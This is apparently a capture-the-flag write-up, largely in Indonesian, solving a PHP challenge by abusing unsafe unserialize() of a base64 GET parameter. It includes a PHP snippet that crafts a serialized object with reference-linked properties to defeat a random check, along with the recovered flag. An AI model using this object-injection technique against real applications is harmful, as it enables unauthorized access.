 #  Intuition Test

#Desc
> If your intuition is on point, you’ll walk away with the flag. If not, well... at least you tried, right?
`[index.php]`

## About the Challenge
Given 1 file yaitu `[index.php]`

## How to solve?
Ini adalah tampilan websitenya.
![img1](imgs/1.png)

source code review
![img2](imgs/2.png)

oke disini kita coba sedikit review jadi ini adalah sebuah web yang menampikkan sebuah fitur tampilan warna dengan RGB yang diinputkan oleh user. Tetapi disini kita tahu bahwa terdapat 2 property utama yaitu expected_* dan input_* dimana expected property berperan sebagai pengatur warna yang diatur secara default oleh server dengan random dan input property berperan sebagai pemberi warna yang diatur secara optional oleh user. 

Nah kita diminta untuk memastikan input property dapat memiliki value yang sama dengan expected property. Mungkin ini terlihat sulit karena expected property diberikan secara random. 
Tetapi perhatikan disini 
```
...snippet...
} elseif (isset($_GET['i'])) {
    $decoded_input = base64_decode($_GET['i']);
    $obj = unserialize($decoded_input);
    if ($obj instanceof IntuitionTest) {
        $name = $obj->name;
        $obj->expected_R = rand(0, 255);
        $obj->expected_G = rand(0, 255);
        $obj->expected_B = rand(0, 255);

        if ($obj->expected_R === $obj->input_R && $obj->expected_G === $obj->input_G && $obj->expected_B === $obj->input_B) {
            $message = "You guessed it right, $name! <br><br><br> $flag";
...snippet...
```

ternyata jika kita request secara GET dengan var i maka akan di decode dan unserialize, jika merupakan instance dari class IntuitionTest, maka akan proses pada pengkondisian statement untuk mendapatkan flag. Kita tinggal buat saja object dari class IntuitionTest dimana input_* bervalue expected_* untuk mengikuti perubahan yang ditetapkan oleh server.

```
    $obj = new IntuitionTest();
    $obj->name = 'test';
    $obj->expected_R = 10;
    $obj->expected_G = 10;
    $obj->expected_B = 10;
    $obj->input_R = &$obj->expected_R;
    $obj->input_G = &$obj->expected_G;
    $obj->input_B = &$obj->expected_B;

    $serialized_obj = serialize($obj);
    $serialized_obj_b64 = base64_encode($serialized_obj);
    var_dump($serialized_obj_b64);
```
kita jalankan di local server php. `php -S localhost:8000`
![img3](imgs/3.png)

![img4](imgs/4.png)
Alhamdulillah, kita dapatkan flagnya



```
ARA6{ara_ara!_you_have_good_intuition!}
```
